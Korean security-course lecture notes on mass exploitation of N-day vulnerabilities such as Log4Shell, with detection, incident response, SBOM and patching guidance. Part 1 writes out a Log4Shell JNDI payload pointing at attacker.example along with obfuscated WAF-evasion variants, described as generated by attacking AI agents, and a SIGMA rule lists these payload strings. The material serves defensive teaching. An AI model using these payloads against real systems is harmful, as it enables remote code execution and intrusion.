








# Week 06: N-day 대규모 악용 — Log4Shell·Spring4Shell·yet-to-come

## 이번 주의 위치
지난 주 0-day를 보았다면, 이번 주는 *공개된 후 단 수 시간* 내에 전 세계 스캔·악용이 이루어지는 **N-day 대규모 악용**. Log4Shell(CVE-2021-44228), Spring4Shell(CVE-2022-22965), PaperCut(CVE-2023-27350), MOVEit(CVE-2023-34362) 등 근래 *대량 공격* 사례의 공통 구조를 배우고, 에이전트가 이 공격을 *1만 표적*에 동시 시도하는 양상의 IR을 다룬다.

## 학습 목표
- N-day 대규모 악용의 *타임라인 역학*을 이해
- 에이전트의 *대량 스캔·변형 생성*이 기존 WAF를 어떻게 우회하는지 관찰
- 6단계 IR 절차를 *긴급 패치 운영*과 통합
- Emergency Patch vs 단계적 패치의 의사결정
- SBOM·Virtual Patching·Runtime Protection의 조합

## 전제 조건
- C19·C20 w1~w5
- OWASP Top 10·CVSS 기초
- 패치 관리 경험

## 강의 시간 배분
| 시간 | 내용 |
|------|------|
| 0:00-0:40 | Part 1: 공격 해부 |
| 0:40-1:10 | Part 2: 탐지 |
| 1:10-1:20 | 휴식 |
| 1:20-1:50 | Part 3: 분석 |
| 1:50-2:30 | Part 4: 초동대응 |
| 2:30-2:40 | 휴식 |
| 2:40-3:10 | Part 5: 보고·공유 |
| 3:10-3:30 | Part 6: 재발방지 |
| 3:30-3:40 | 퀴즈 + 과제 |

---

## 용어 해설

| 용어 | 설명 |
|------|------|
| **Emergency Patch** | 긴급 패치 (정상 변경 관리 절차 단축) |
| **Virtual Patch** | WAF·RASP 수준에서의 *임시 완화* |
| **CVE** | Common Vulnerabilities and Exposures |
| **CVSS** | 심각도 점수 (0~10) |
| **CISA KEV** | CISA Known Exploited Vulnerabilities 카탈로그 |
| **Shadow IT** | 조직 미파악 자산 |

---

# Part 1: 공격 해부 (40분)

## 1.1 N-day 악용의 *4시간 룰*

Log4Shell·Spring4Shell 등의 사례 공통:



조직의 패치 창이 "수 주~수 개월"이면 *이미 늦다*. 방어는 *수 시간* 내에 조치해야 한다.

## 1.2 에이전트 N-day 공격 파이프라인



사람 공격자 팀: 1~2개 대상 집중. 에이전트: *1만+ 동시*.

## 1.3 Log4Shell을 예로

```
원본 페이로드:
  ${jndi:ldap://attacker.example/a}

에이전트 자동 변형 수십 종:
  ${${::-j}${::-n}${::-d}${::-i}:ldap://...}   # Nest
  ${${lower:j}ndi:ldap://...}                   # Case
  ${jndi:${lower:l}${lower:d}${lower:a}p://...}
  ${${env:BARFOO:-j}ndi:ldap://...}
  ...
```

공격자 에이전트가 *초당 수십 변형*을 만들고, 방어 WAF가 *차단한 변형 피드백*으로 *다음 변형*을 즉시 생성.

---

# Part 2: 탐지 (30분)

## 2.1 N-day 대응의 *3정보원*



각 정보원을 *독립 구독*해 *다중 확인*.

## 2.2 자산 측 탐지 — *취약 버전 검색*

```bash
# Log4Shell 예 — 호스트 전수 스캔
find / -name "log4j-core-*.jar" 2>/dev/null | while read f; do
  ver=$(unzip -p "$f" META-INF/MANIFEST.MF 2>/dev/null | grep 'Implementation-Version')
  echo "$f  $ver"
done
```

조직 *호스트 수만 대*에서 *분 내* 수행해야 하므로 Ansible·Salt·SaltBastion 같은 대규모 실행 도구 필수.

## 2.3 네트워크 측 탐지 — 페이로드 시그니처

```yaml
# SIGMA 예
title: Log4Shell JNDI burst
logsource: { product: suricata }
detection:
  selection:
    payload|contains: ["${jndi:", "${${::-j}${::-n}"]
  condition: selection
level: critical
```

*변형 대응*을 위해 **정규식 + Semantic**(w2의 Gate) 조합.

## 2.4 Bastion 스킬 — `ingest_cve_feed`

```python
def ingest_cve_feed():
    # CISA KEV·NVD·벤더 피드 병합
    kev = fetch("https://www.cisa.gov/known-exploited-vulnerabilities")
    for entry in kev:
        if is_new(entry.cve) and affects_org(entry):
            raise_alert(entry, level="URGENT")
            trigger_playbook("nday_response", entry)
```

---

# Part 3: 분석 (30분)

## 3.1 영향 범위 평가 — *SBOM이 열쇠*

SBOM이 있으면 *어디에 해당 의존성이 있는지* 즉시 알 수 있다.



SBOM 없으면 *수 일* 소요. 있으면 *수 분*.

## 3.2 *공격 여부 확인* — 3가지

1. **네트워크 로그**: 공격 페이로드 관찰 여부
2. **시스템 로그**: *이례적 아웃바운드* (jndi·ldap 등)
3. **애플리케이션 로그**: 처리한 페이로드 흔적

---

# Part 4: 초동대응 (40분)

## 4.1 Emergency Patch 의사결정



## 4.2 Human 흐름



표준 프로세스: 며칠~수주.

## 4.3 Agent 흐름



Virtual Patch는 *즉시 자동*, 실제 패치는 *사람 승인 후 자동*.

## 4.4 비교표

| 축 | Human | Agent |
|----|-------|-------|
| CVE 인지 → Virtual Patch | 수 시간 | **수 분** |
| 영향 평가 | 수 시간 (SBOM 없으면 며칠) | **수 분 (SBOM 있으면)** |
| 실제 패치 | 승인 의존 | 승인 후 자동 |
| 테스트 자동화 | 제한 | *가능성 있음* |

---

# Part 5: 보고·상황 공유 (30분)

## 5.1 업계 공조

N-day는 *많은 조직이 동시 피해*. 공조가 유효.

- **ISAC 공유**: 업계별 CERT·ISAC
- **벤더 피드백**: 자사 환경 특성 전달
- **공개 블로그**: 사후 공유 (선택)

## 5.2 임원 브리핑

```markdown
# Incident — CVE-YYYY-NNNNN (D+1h)

**What happened**: 신규 CVE 공개. 조직 내 영향 서비스 12개 식별.
                   Bastion 즉시 Virtual Patch. Emergency Patch 계획.

**Impact**: 공격 시도 *관찰됨*. 실제 악용 *확인 안 됨*.

**Ask**: Emergency Patch 오늘 야간 배포 승인.
```

---

# Part 6: 재발방지 (20분)

## 6.1 *CVE 대응 운영 모델* — Pipeline



## 6.2 *VulnOps* 운영 기준

- 전사 SBOM 유지
- Emergency Patch 48시간 SLA
- Virtual Patch 2시간 SLA
- *미패치* 서비스의 지속 모니터링

## 6.3 체크리스트

- [ ] 모든 서비스 SBOM 자동 생성
- [ ] CVE 피드 자동 구독·매칭
- [ ] Virtual Patch 자동 배포 파이프라인
- [ ] Emergency Patch 48h SLA 승인 프로세스
- [ ] Shadow IT 상시 스캔
- [ ] 외부 노출 자산 상시 재평가

---

## 과제
1. **공격 재현 (필수)**: Log4Shell 취약 버전 JAR 이용 실습 (샌드박스).
2. **6단계 IR 보고서 (필수)**.
3. **SBOM 생성 (필수)**: 본인 실습 서비스의 SBOM 생성 (syft·cyclonedx).
4. **(선택)**: Virtual Patch 자동 배포 파이프라인 설계.
5. **(선택)**: 본인 조직의 CVE 대응 SLA 감사.

---

## 부록 A. 대표 N-day 사례

| CVE | 이름 | 영향 |
|-----|------|------|
| CVE-2021-44228 | Log4Shell | 수천 만 서비스 |
| CVE-2022-22965 | Spring4Shell | 수백 만 |
| CVE-2023-34362 | MOVEit | 대규모 공급망 |
| CVE-2023-27350 | PaperCut | 교육·의료 |
| CVE-2024-XXXXX | (차기) | — |

## 부록 B. SBOM 도구

- **Syft** (Anchore): 컨테이너·소스 SBOM 생성
- **CycloneDX**: 표준 포맷
- **SPDX**: 표준 포맷
- **Trivy**: SBOM + 스캔 통합

`syft packages mycontainer:latest -o cyclonedx-json` 같은 명령으로 *수 초* 생성.

---

## 실제 사례 (WitFoo Precinct 6)

> **출처**: [WitFoo Precinct 6 Cybersecurity Dataset](https://huggingface.co/datasets/witfoo/precinct6-cybersecurity) (Apache 2.0)
> **익명화**: RFC5737 TEST-NET / ORG-NNNN / HOST-NNNN 으로 sanitized

본 주차 (6주차) 학습 주제와 직접 연관된 *실제* incident:

### Kerberos AS-REP roasting — krbtgt 외부 유출

> **출처**: WitFoo Precinct 6 / `incident-2024-08-002` (anchor: `anc-7c9fb0248f47`) · sanitized
> **시점**: 2024-08-15 11:02 ~ 11:18 (16 분)

**관찰**: win-dc01 의 PreAuthFlag=False 계정 3건 식별 + AS-REP 응답이 외부 IP 198.51.100.42 로 유출.

**MITRE ATT&CK**: **T1558.004 (AS-REP Roasting)**

**IoC**:
  - `198.51.100.42`
  - `krbtgt-hash:abc123def`

**학습 포인트**:
- PreAuthentication 비활성화 계정이 곧 공격 표면 (서비스/legacy/오설정)
- Hash 추출 → hashcat 으로 오프라인 brute force → Domain Admin 가능성
- 탐지: DC 의 EID 4768 + AS-REP 패킷 길이 / 외부 destination IP
- 방어: 모든 계정 PreAuth 활성, krbtgt 분기별 회전, FIDO2 도입


**본 강의와의 연결**: 위 사례는 강의의 핵심 개념이 어떻게 *실제 운영 환경*에서 일어나는지 보여준다. 학생은 이 패턴을 (1) 공격자 입장에서 재현 가능한가 (2) 방어자 입장에서 탐지 가능한가 (3) 자기 인프라에서 동일 신호가 있는지 검색 가능한가 — 3 관점에서 평가한다.

---

> 더 많은 사례 (총 5 anchor + 외부 표준 7 source) 는 KG (Knowledge Graph) 페이지에서 검색 가능.
> Cyber Range 실습 중 학습 포인트 박스 (📖) 에 동일 anchor 가 자동 노출된다.
